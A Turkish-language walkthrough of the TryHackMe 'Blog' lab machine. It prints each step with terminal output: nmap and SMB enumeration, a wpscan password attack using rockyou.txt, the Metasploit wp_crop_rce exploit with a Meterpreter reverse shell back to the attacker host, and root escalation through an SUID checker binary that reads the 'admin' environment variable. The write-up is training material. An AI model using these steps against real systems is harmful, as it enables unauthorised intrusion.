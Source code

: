 ```yaml
---
title: "Blog Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere TryHackMe platformunda bulunan “Blog” isimli makinenin çözümü anlatacağım. Keyifli Okumalar…

1 - Nmap aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# nmap -sS -sV 10.10.58.35                    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-14 07:49 EDT
Nmap scan report for 10.10.58.35
Host is up (0.083s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - SMB servisinde paylaşılan klasörleri listeliyorum. "BillySMB" klasörüne girip dosyaları indiriyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# smbclient -L //10.10.58.35                           
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BLOG

┌──(root㉿kali)-[/home/kali/Downloads]
└─# smbclient //10.10.58.35/BillySMB 
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

                15413192 blocks of size 1024. 9788764 blocks available
smb: \> mget *
Get file Alice-White-Rabbit.jpg? y
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (80.1 KiloBytes/sec) (average 80.1 KiloBytes/sec)
Get file tswift.mp4? y
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (1307.1 KiloBytes/sec) (average 931.9 KiloBytes/sec)
Get file check-this.png? y
getting file \check-this.png of size 3082 as check-this.png (11.2 KiloBytes/sec) (average 777.6 KiloBytes/sec)
smb: \> exit
```

3 - HTTP sayfasının kaynağını incelediğimde "blog.thm" alan adını görüyorum. Alan adını "/etc/hosts" dosyasına ekliyorum.

```system
<link rel='dns-prefetch' href='[//blog.thm](view-source:http://blog.thm/)' />

┌──(root㉿kali)-[/home/kali/Downloads]
└─# echo "10.10.58.35 blog.thm" | tee -a /etc/hosts
10.10.58.35 blog.thm
```

4 - Wpscan, aracı ile wordpress kullanıcılarını tarıyorum. Daha sonra bulduğum kullanıcıların üzerinde "rockyou.txt" kullanarak parola saldırısı gerçekleştiriyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# wpscan --url http://blog.thm/ -e u
*
*
┌──(root㉿kali)-[/home/kali/Downloads]
└─# wpscan --url http://blog.thm/ --usernames usernames.txt --passwords /usr/share/wordlists/rockyou.txt
```

5 - Metasploit-framework içerisindeki "exploit/multi/http/wp_crop_rce" modülünü kullanarak bir shell alıyorum.

```
msf6 > use exploit/multi/http/wp_crop_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > show options
*
*
msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.8.94.51:4444 
[*] Authenticating with WordPress using *CENSORED*:*CENSORED*...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.58.35
[*] Meterpreter session 1 opened (10.8.94.51:4444 -> 10.10.58.35:54236) at 2023-06-14 08:15:32 -0400
[*] Attempting to clean up files...

meterpreter > 
```

6 - SUID biti aktifleştirilmiş komutları listelediğimde "/usr/sbin/checker" komutu görüyorum. 

```system
meterpreter > shell
Process 1751 created.
Channel 2 created.
SHELL=/bin/bash script -q /dev/null
www-data@blog:/var/www/wordpress$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
*
*
/usr/sbin/checker
```

7 - "/usr/sbin/checker" komutu çalıştırdığımda admin olmadığımı söyleyen bir mesajla karşılaşıyorum. "ltrace" komutu ile incelediğimde çevre birimlerinde "admin" isminde bir değişken aradığını görüyorum. "admin=1" değerinde bir değişken yaratıp tekrar çalıştırdığımda root kullanıcısına geçtiğimi görüyorum.

```system
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
www-data@blog:/var/www/wordpress$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
www-data@blog:/var/www/wordpress$ export admin=1
export admin=1
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/var/www/wordpress#
```

8 - Root kullanıcısı ile bayrakları elde ediyorum.

```system
root@blog:/var/www/wordpress# cd /root
cd /root
root@blog:/root# ls
ls
root.txt
root@blog:/root# cat root.txt
cat root.txt
*CENSORED*
root@blog:/root# cd /home
cd /home
root@blog:/home# ls
ls
bjoel
root@blog:/home# cd bjoel
cd bjoel
root@blog:/home/bjoel# ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
root@blog:/home/bjoel# cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
root@blog:/home/bjoel# find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/home/bjoel# cat /media/usb/user.txt
cat /media/usb/user.txt
*CENSORED*
```